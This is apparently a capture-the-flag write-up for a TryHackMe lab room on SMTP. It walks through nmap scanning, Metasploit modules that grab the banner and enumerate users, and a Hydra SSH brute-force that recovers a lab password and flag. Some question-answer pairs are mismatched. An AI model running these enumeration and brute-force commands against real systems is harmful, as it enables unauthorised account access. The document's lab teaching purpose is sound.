 ![](https://miro.medium.com/max/1400/1*2TtHSGMb8jaQMZYUF8RQ9g.png)

This is a writeup for [Network Services 2](https://tryhackme.com/room/networkservices2) room on tryhackme.

Enumerating SMTP
----------------

Spin up your target machine and let’s do an NMAP scan to see what ports are open

```
#nmap -Pn -sV -sC 10.10.114.123  
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-03-08 10:31 EST  
Nmap scan report for 10.10.114.123  
Host is up (0.42s latency).  
Not shown: 65093 closed tcp ports (reset), 440 filtered tcp ports (no-response)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 62:a7:03:13:39:08:5a:07:80:1a:e5:27:ee:9b:22:5d (RSA)  
|   256 89:d0:40:92:15:09:39:70:17:6e:c5:de:5b:59:ee:cb (ECDSA)  
|\_  256 56:7c:d0:c4:95:2b:77:dd:53:d6:e6:73:99:24:f6:86 (ED25519)  
25/tcp open  smtp    Postfix smtpd  
|\_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8  
| ssl-cert: Subject: commonName=polosmtp  
| Subject Alternative Name: DNS:polosmtp  
| Not valid before: 2020-04-22T18:38:06  
|\_Not valid after:  2030-04-20T18:38:06  
Service Info: Host:  polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux\_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 3806.97 seconds
```

1.  First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?

```
25
```

2\. Okay, now we know what port we should be targeting, let’s start up Metasploit. What command do we use to do this?

```
msfconsole
```

After opening msfconsole, use the ‘search’ command to look for “smtp\_version”

3\. Let’s search for the module “smtp\_version”, what’s it’s full module name?

```
auxiliary/scanner/smtp/smtp\_version
```

Now use the ‘USE’ command to select the ‘smtp\_version’ module and use the ‘SHOW OPTIONS’ to set the remote hosts.

```
msf6 > use auxiliary/scanner/smtp/smtp\_version  
msf6 auxiliary(scanner/smtp/smtp\_version) > show optionsModule options (auxiliary/scanner/smtp/smtp\_version):Name     Current Setting  Required  Description  
   ----     ---------------  --------  -----------  
   RHOSTS                    yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT    25               yes       The target port (TCP)  
   THREADS  1                yes       The number of concurrent threads (max one per host)msf6 auxiliary(scanner/smtp/smtp\_version) > set RHOSTS 10.10.114.123  
RHOSTS => 10.10.114.123  
msf6 auxiliary(scanner/smtp/smtp\_version) > set RPORT 25  
RPORT => 25  
msf6 auxiliary(scanner/smtp/smtp\_version) > run\[+\] 10.10.114.123:25      - 10.10.114.123:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\\x0d\\x0a  
\[\*\] 10.10.114.123:25      - Scanned 1 of 1 hosts (100% complete)  
\[\*\] Auxiliary module execution completed
```

4\. Great, now- select the module and list the options. How do we do this?

```
options
```

5\. Have a look through the options, does everything seem correct? What is the option we need to set?

```
RHOSTS
```

The exploit we just ran grabs the banner of the SMTP server, and also we can see it’s running ‘Postfix’

6\. Good! We’ve now got a good amount of information on the target system to move onto the next stage. Let’s search for the module “_smtp\_enum_”, what’s it’s full module name?

```
Postfix
```

Again use the ‘search’ command to search for smtp\_enum

7\. Good! We’ve now got a good amount of information on the target system to move onto the next stage. Let’s search for the module “_smtp\_enum_”, what’s it’s full module name?

```
auxiliary/scanner/smtp/smtp\_enum
```

use the ‘SET’ command to set the RHOSTS and USER\_FILE

```
msf6 auxiliary(scanner/smtp/smtp\_enum) > show optionsModule options (auxiliary/scanner/smtp/smtp\_enum):Name       Current Setting                                                Required  Description  
   ----       ---------------                                                --------  -----------  
   RHOSTS                                                                    yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT      25                                                             yes       The target port (TCP)  
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)  
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users  
   USER\_FILE  /usr/share/metasploit-framework/data/wordlists/unix\_users.txt  yes       The file that contains a list of probable users accounts.msf6 auxiliary(scanner/smtp/smtp\_enum) > set RHOSTS 10.10.125.23  
RHOSTS => 10.10.125.23  
msf6 auxiliary(scanner/smtp/smtp\_enum) > set USER\_FILE /usr/share/wordlists/SecLists-master/Usernames/top-usernames-shortlist.txt  
USER\_FILE => /usr/share/wordlists/SecLists-master/Usernames/top-usernames-shortlist.txt  
msf6 auxiliary(scanner/smtp/smtp\_enum) > run\[\*\] 10.10.125.23:25       - 10.10.125.23:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)  
\[+\] 10.10.125.23:25       - 10.10.125.23:25 Users found: administrator  
\[\*\] 10.10.125.23:25       - Scanned 1 of 1 hosts (100% complete)  
\[\*\] Auxiliary module execution completed
```

8\. What option do we need to set to the wordlist’s path?

```
USER\_FILE
```

9\. Once we’ve set this option, what is the other essential paramater we need to set?

```
RHOSTS
```

11\. Okay! Now that’s finished, what username is returned?

```
administrator
```

Exploiting SMTP
---------------

We have found the username of the SMTP server, now let’s try to find the password with brute-forcing

```
**hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.125.23 ssh**
```

*   **\-t** for parallel connections for target
*   **\-l** for the username
*   **\-P** for the file containing passwords
*   **\-vV** to show the command output

and the attack\_machine IP followed by the protocol

```
\[22\]\[ssh\] host: 10.10.125.23   login: administrator   password: alejandro
```

1.  What is the password of the user we found during our enumeration stage?

```
alejandro
```

2\. Great! Now, let’s SSH into the server as the user, what is contents of smtp.txt

```
THM{who\_knew\_email\_servers\_were\_c00l?}
```

Thank you for reading.
